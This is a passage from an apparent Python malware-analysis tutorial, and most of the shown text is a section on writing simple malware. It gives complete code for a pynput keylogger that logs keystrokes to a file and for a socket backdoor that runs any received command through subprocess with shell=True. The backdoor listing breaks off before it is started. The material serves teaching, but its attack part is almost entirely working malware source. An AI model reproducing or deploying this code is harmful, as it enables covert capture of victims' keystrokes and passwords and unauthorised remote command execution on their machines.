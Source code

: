 These examples demonstrate the versatility of Python in malware analysis, from low-level file parsing to high-level report generation. The language's extensive library ecosystem and ease of use make it an ideal choice for both rapid prototyping of analysis tools and development of comprehensive malware analysis frameworks.


#### Writing Simple Python-Based Malware
---

##### Simple Keylogger
---


```python
from pynput import keyboard
import logging

logging.basicConfig(filename='keylog.txt', level=logging.DEBUG, format="%(asctime)s: %(message)s")


def on_press(key):
    logging.info(str(key))


with keyboard.Listener(on_press=on_press) as listener:
    listener.join()

```


This script uses the `pynput` library to capture keystrokes and logs them to a file named `keylog.txt` In a real-world scenario, an attacker might use more sophisticated methods to hide the log file or transmit the data to a remote server.

##### Simple Backdoor
----
```python
import socket
import subprocess
import argparse
from pyfiglet import figlet_format


def execute_command(command):
    return subprocess.check_output(command, shell=True)


def start_backdoor(host, port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((host, port))
    s.listen(1)

    while True:
        conn, addr = s.accept()
        print(f'[+] Connection from: {addr}')

        while True:
            data = conn.recv(1024).decode()
            if not data:
                break
            output = execute_command(data)
            conn.send(output)

        conn.close()


```